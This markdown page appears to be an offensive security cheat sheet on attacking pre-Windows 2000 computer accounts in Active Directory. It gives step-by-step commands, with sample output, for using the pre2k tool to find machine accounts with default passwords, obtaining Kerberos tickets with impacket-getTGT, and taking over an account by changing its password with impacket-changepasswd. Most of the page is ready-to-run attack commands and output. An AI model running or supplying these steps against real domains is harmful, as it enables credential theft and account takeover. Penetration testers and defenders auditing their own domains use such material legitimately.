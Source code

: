 ```yaml
---
title: "Pre-Windows 2000 Computer"
date: 2025-7-10
tags: ["Domain Controller", "Pre-Windows 2000 Computer", "Active Directory", "Windows", "pre2k", "Pre-Created Computer"]
---
```


### Enum

{{< tab set1 tab1 >}}pre2k{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Installation

```console
python3 -m venv venv
```

```console
source venv/bin/activate
```

```console
git clone https://github.com/garrettfoster13/pre2k.git
```

```console
cd pre2k/
```

```console
pip3 install .
```

#### Query

```console
# Unauth
pre2k unauth -d '<DOMAIN>' -dc-ip '<DC_IP>' -verbose -inputfile '<MACHINES_FILE>'
```

```console {class="sample-code"}
$ cat machines.txt 
banking$

$ pre2k unauth -d example.com -dc-ip 192.168.1.10 -verbose -inputfile 'machines.txt'

                                ___    __         
                              /'___`\ /\ \        
 _____   _ __    __          /\_\ /\ \\ \ \/'\    
/\ '__`\/\`'__\/'__`\ _______\/_/// /__\ \ , <    
\ \ \L\ \ \ \//\  __//\______\  // /_\ \\ \ \\`\  
 \ \ ,__/\ \_\\ \____\/______/ /\______/ \ \_\ \_\
  \ \ \/  \/_/ \/____/         \/_____/   \/_/\/_/
   \ \_\                                      v3.1    
    \/_/                                          
                                            @unsigned_sh0rt
                                            @Tw1sm          

[23:53:03] INFO     Testing started at 2025-07-10 23:53:03
[23:53:03] INFO     Using 10 threads
[23:53:03] INFO     VALID CREDENTIALS: example.com\banking$:banking
```

```console
# Auth
pre2k auth -u '<USER>' -p '<PASSWORD>' -d '<DOMAIN>' -dc-ip '<DC_IP>' -verbose
```

```console {class="sample-code"}
$ pre2k auth -u trainee -p trainee -d example.com -dc-ip 192.168.1.10 -verbose                             

                                ___    __         
                              /'___`\ /\ \        
 _____   _ __    __          /\_\ /\ \\ \ \/'\    
/\ '__`\/\`'__\/'__`\ _______\/_/// /__\ \ , <    
\ \ \L\ \ \ \//\  __//\______\  // /_\ \\ \ \\`\  
 \ \ ,__/\ \_\\ \____\/______/ /\______/ \ \_\ \_\
  \ \ \/  \/_/ \/____/         \/_____/   \/_/\/_/
   \ \_\                                      v3.1    
    \/_/                                          
                                            @unsigned_sh0rt
                                            @Tw1sm          

[23:54:06] INFO     Retrieved 2 results total.
[23:54:06] INFO     Testing started at 2025-07-10 23:54:06
[23:54:06] INFO     Using 10 threads
[23:54:07] INFO     VALID CREDENTIALS: example.com\BANKING$:banking
[23:54:07] DEBUG    Invalid credentials: example.com\DC$:dc
```

{{< /tabcontent >}}

### Abuse #1: Connect via Kerberos

{{< tab set2 tab1 >}}impacket{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Request a Ticket

```console
sudo ntpdate -s <DC> && impacket-getTGT '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC_IP>
```

```console {class="sample-code"}
$ sudo ntpdate -s dc.example.com && impacket-getTGT 'example.com/Banking$:banking' -dc-ip dc.example.com     
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Banking$.ccache
```

```console
export KRB5CCNAME='<USER>.ccache'
```

{{< /tabcontent >}}

### Abuse #2: Change Target Password

{{< tab set3 tab1 >}}impacket{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
impacket-changepasswd -newpass <NEW_PASSWORD> '<DOMAIN>/<USER>:<PASSWORD>@<TARGET>' -protocol rpc-samr
```

```console {class="sample-code"}
$ impacket-changepasswd -newpass banking 'example.com/BANKING$:banking@dc.example.com' -protocol rpc-samr 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of example.com\BANKING$
[*] Connecting to DCE/RPC as example.com\BANKING$
[*] Password was changed successfully.
```

{{< /tabcontent >}}